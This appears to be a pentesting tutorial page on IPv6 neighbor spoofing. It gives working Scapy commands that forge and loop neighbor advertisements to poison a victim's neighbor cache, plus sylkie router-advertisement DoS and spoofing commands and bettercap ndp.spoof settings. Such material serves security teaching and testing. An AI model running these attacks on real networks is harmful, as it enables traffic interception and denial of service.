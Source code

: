 # IPv6 Neighbor Spoofing

## IPv6 Neighbor Discovery

While it's true ARP does not exist in the IPv6 protocol stack, IPv6 instead relies on ICMPv6 for many of the same operations carried out via ARP under IPv4. Collectively, these functions make up IPv6's [Neighbor Discovery (ND)](https://packetlife.net/blog/2008/aug/28/ipv6-neighbor-discovery/) protocol, described in [RFC 4861](http://tools.ietf.org/html/rfc4861).

Most similar to typical ARP usage under IPv4 is the ND address resolution function, which is used when a host wants to transmit to an on-link prefix but doesn't yet know the layer two address of the destination host. The sending host multicasts a neighbor solicitation, and the destination host, if reachable, responds with a neighbor advertisement containing its layer two address.

![](<../.gitbook/assets/image (290).png>)

Unfortunately, as in ARP, these exchanges are completely unsecured. There are no countermeasures in place to prevent an attacker from generating a neighbor advertisement advertising his own layer two address as belonging to other hosts on the link.

![](<../.gitbook/assets/image (291).png>)

## Using Scapy

We can put this theory into practice by fabricating our own custom neighbor advertisements and unicasting them to our intended victim. For this example, we'll use Scapy to craft our malicious advertisement layer by layer:

```
>>> ls(Ether)
dst        : DestMACField         = (None)
src        : SourceMACField       = (None)
type       : XShortEnumField      = (0)
>>> ether=(Ether(dst='00:00:00:00:00:0b', src='00:00:00:00:00:0c'))
>>> ls(IPv6)
version    : BitField             = (6)
tc         : BitField             = (0)
fl         : BitField             = (0)
plen       : ShortField           = (None)
nh         : ByteEnumField        = (59)
hlim       : ByteField            = (64)
src        : SourceIP6Field       = (None)
dst        : IP6Field             = ('::1')
>>> ipv6=IPv6(src='fe80::1', dst='fe80::2')
>>> ls(ICMPv6ND_NA)
type       : ByteEnumField        = (136)
code       : ByteField            = (0)
cksum      : XShortField          = (None)
R          : BitField             = (1)
S          : BitField             = (0)
O          : BitField             = (1)
res        : XBitField            = (0)
tgt        : IP6Field             = ('::')
>>> na=ICMPv6ND_NA(tgt='fe80::1', R=0)
>>> ls(ICMPv6NDOptDstLLAddr)
type       : ByteField            = (2)
len        : ByteField            = (1)
lladdr     : MACField             = ('00:00:00:00:00:00')
>>> lla=ICMPv6NDOptDstLLAddr(lladdr='00:00:00:00:00:0c')
```

Once we've constructed the individual layers of the packet, we can see how they look after being welded together (notice that Scapy will handle minor aspects automatically, like setting the Ethernet type field to 0x86dd for IPv6).

```
>>> (ether/ipv6/na/lla).display()
###[ Ethernet ]###
  dst= 00:00:00:00:00:0b
  src= 00:00:00:00:00:0c
  type= 0x86dd
###[ IPv6 ]###
   version= 6
   tc= 0
   fl= 0
   plen= None
   nh= ICMPv6
   hlim= 255
   src= fe80::1
   dst= fe80::2
###[ ICMPv6 Neighbor Discovery - Neighbor Advertisement ]###
    type= Neighbor Advertisement
    code= 0
    cksum= 0x0
    R= 0
    S= 0
    O= 1
    res= 0x0
    tgt= fe80::1
###[ ICMPv6 Neighbor Discovery Option - Destination Link-Layer Address ]###
       type= 2
       len= 1
       lladdr= 00:00:00:00:00:0c
```

We can now inject this packet at regular intervals onto the LAN. The following command within Scapy will retransmit the packet every five seconds:

```
>>> sendp(ether/ipv6/na/lla, iface='br0', loop=1, inter=5)
```

At a console on the victim machine (running Linux), we can use the `ip` utility to monitor IPv6 neighbors on the link. Notice that the MAC address for fe80::1 is initially listed as `00:00:00:00:00:0a`, the legitimate gateway, but as soon as we begin injecting our malicious neighbor advertisement, the entry is updated to `00:00:00:00:00:0c`, our attacking machine

```
//Victim$ ip neigh show dev eth0
fe80::1 lladdr 00:00:00:00:00:0a REACHABLE
Victim$ ip neigh show dev eth0
fe80::1 lladdr 00:00:00:00:00:0a REACHABLE
Victim$ ip neigh show dev eth0
fe80::1 lladdr 00:00:00:00:00:0a REACHABLE
Victim$ ip neigh show dev eth0
fe80::1 lladdr 00:00:00:00:00:0c DELAY
Victim$ ip neigh show dev eth0
fe80::1 lladdr 00:00:00:00:00:0c REACHABLE
Victim$ ip neigh show dev eth0
fe80::1 lladdr 00:00:00:00:00:0c REACHABLE
Victim$ ip neigh show dev eth0
fe80::1 lladdr 00:00:00:00:00:0c REACHABLE
```

## Sylkie

Sylkie is a command line device and library for testing systems for normal address spoofing security vulnerabilities in IPv6 systems utilizing the Neighbor Discovery Protocol. This venture is still in the early periods of advancement. On the off chance that you keep running into any issues, please consider presenting an issue. It presently just keeps running on Linux.

```
git clone https://github.com/dlrobertson/sylkie
cd ./sylkie
mkdir -p ./build
cd ./build
cmake -DCMAKE_BUILD_TYPE=Release ..
make
make install
```

```
sylkie -h
```

### DoS (Router Advert)

The basic usage of the router-advert command is listed below. This command will send a Router Advertisement message to the given ip or the all nodes multicast addres causing the targeted nodes to remove / from their list of default routes.

```
sylkie ra -i <interface> \
--target-mac <mac of router> \
--router-ip <ip of router> \
--prefix <router prefix> \
--timeout <time between adverts> \
--repeat <number of times to send the request>
```

Router Advert Examples

```
sylkie ra -i ens3 \
--target-mac 52:54:00:e3:f4:06 \
--router-ip fe80::b95b:ee1:cafe:9720 \
--prefix 64 \
--repeat -1 \
--timeout 10
```

This would send a “forged” Router Advertisement to the link local scope all-nodes address ff02::1 causing all of the nodes to remove fe80::b95b:ee1:cafe:9720/64 (link-layer address 52:54:00:e3:f4:06) from their list of default routes.

### Address spoofing (Neighbor Advert)

The basic usage of the sylkie neighbor advert command is listed below. This command will send a forged Neighbor Advertisement message to the given ip

```
sylkie na -i <interface> \
--dst-mac <dest hw addr> \
--src-ip <source ip> \
--dst-ip <dest ip address> \
--target-ip <target ip address> \
--target-mac <target mac address> \
--timeout <time betweeen adverts> \
--repeat <number of times to send the request>
```

Neighbor Advert examples

```
sylkie na -i ens3 \
--dst-mac 52:54:00:e3:f4:06 \
--src-ip fe80::61ad:fda3:3032:f6f4 \
--dst-ip fe80::b95b:ee1:cafe:9720 \
--target-ip fe80::61ad:fda3:3032:f6f4 \
--target-mac 52:54:00:c2:a7:7c \
--repeat -1 \
--timeout 3
```

## Bettercap

NDP.SPOOF (IPV6)

This module performs IPv6 neighbor spoofing by sending crafted neighbor and router advertisement packets.

```
ndp.spoof on / off
```

#### Parameters <a href="#parameters" id="parameters"></a>

| parameter                 | default   | description                                                          |
| ------------------------- | --------- | -------------------------------------------------------------------- |
| `ndp.spoof.neighbour`     | `fe80::1` | Neighbour IPv6 address to spoof, clear to disable NA.                |
| `ndp.spoof.prefix`        | `d00d::`  | IPv6 prefix for router advertisements spoofing, clear to disable RA. |
| `ndp.spoof.prefix.length` | `64`      | IPv6 prefix length for router advertisements.                        |
| `ndp.spoof.targets`       |           | Comma separated list of IPv6 victim addresses.                       |

